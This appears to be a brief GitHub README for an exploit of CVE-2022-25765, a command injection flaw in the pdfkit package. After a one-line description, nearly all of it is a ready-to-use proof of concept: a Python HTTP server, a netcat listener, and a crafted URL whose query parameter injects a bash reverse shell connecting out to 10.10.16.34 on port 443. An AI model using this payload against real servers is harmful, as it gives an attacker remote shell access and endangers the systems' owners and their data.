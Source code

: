 # PDFkit-CMD-Injection

CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



PoC

python3 -m http.server 80

nc -lnvp 'Target Port'

http://'TARGET_ADDRESS:Target PORT'//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.34/443 <&1'`'}
